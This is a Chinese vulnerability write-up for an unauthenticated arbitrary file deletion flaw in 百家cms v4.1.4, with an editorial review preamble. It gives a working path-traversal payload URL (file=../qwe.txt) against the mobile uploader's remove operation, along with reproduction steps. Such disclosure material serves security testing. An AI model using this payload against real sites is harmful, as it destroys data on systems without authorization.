




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：storageconfiguredlocal;mobileuploaderremove;unlinkfileonlynotdirectories;read/writerights

- **结论使用边界（1）**：本地存储选项和只能删文件限制明确，应保留。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：URL含两次op=post/op=remove依PHP后值解析，需明确实际有效参数。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（3）**：只图无实现/权威补丁，匿名状态与版本需核。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **操作与副作用边界（4）**：测试自建qwe文件是合适边界，不应扩成任意目录删除。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 百家cms v4.1.4 任意文件删除漏洞

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # payload
    # 不需要后台权限
    # 只能删除文件，不能删除文件夹

    http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt

设置里需要选择本地，否则删除的不是本地文件

先在根目录下创建qwe.txt作为测试文件

访问payload

查看文件，已经被删除

参考链接
--------

> https://xz.aliyun.com/t/7542
